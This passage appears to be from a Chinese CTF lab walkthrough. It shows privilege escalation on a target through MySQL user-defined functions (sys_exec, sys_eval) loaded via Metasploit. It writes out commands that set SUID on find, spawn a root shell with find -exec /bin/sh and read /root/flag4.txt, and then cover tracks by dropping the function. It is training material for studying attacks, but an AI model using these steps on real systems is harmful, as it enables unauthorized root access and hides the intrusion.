 ##### 使用系统函数

<span style="background:#FF9999;">注意</span>：MySQL msf udf提权后不像以前一样返回一个shell操作，需要继续在mysql执行语句进行后续操作以验证

验证一下:MySQL查询添加的函数

```
select * from mysql.func;
```

利用自定义函数改变find命令权限

```
select sys_exec('chmod u+s /usr/bin/find');
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220522171911074.png" alt="image-20220522171911074" style="zoom:67%;" />

### flag4

之前找的flag地址：

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220522172846268.png" alt="image-20220522172846268" style="zoom:67%;" />

1. 直接利用函数查看flag文件：

```
select sys_eval('find / -name flag*');    
select sys_eval('cat /root/flag4.txt');  //成功拿到flag4
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220522173000803.png" alt="image-20220522173000803" style="zoom:67%;" />



2. 也可以suid提权，赋予命令root权限，然后去执行命令的exec参数即可进入root的shell

```
select sys_eval('chmod u+s /usr/bin/find'); 
//给find命令所有者的suid权限，使其可以执行root命令，之后可以退出mysql，在www的shell下使用/usr/bin/find执行root权限
touch aaa
find aaa -exec "/bin/sh" \;  
//在当前目录下找到aaa文件执行/bin/sh提权，反斜杠 \ 代表结束的标志，与”/bin/sh“ 之间有一个空格
//这就进入了root的shell，可以直接找flag，也可以上传个msf到msf执行后续操作
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220522173741297.png" alt="image-20220522173741297" style="zoom:50%;" />

后续操作，删除痕迹：删除自定义函数
`drop function sys_exec;`
`Delete from mysql.func where name='sys_exec';`





#### 法二：一键msf操作（失败）

> 使用MSF中的 exploit/multi/mysql/mysql_udf_payload 模块也可以进行UDF提权。MSF会将dll文件写入lib\plugin\目录下(前提是该目录存在，如果该目录不存在的话，则无法执行成功)，dll文件名为任意创建的名字。该dll文件中包含sys_exec()和sys_eval()两个函数，但是默认只创建sys_exec()函数，该函数执行并不会有回显。我们可以手动创建 sys_eval() 函数，来执行有回显的命令。
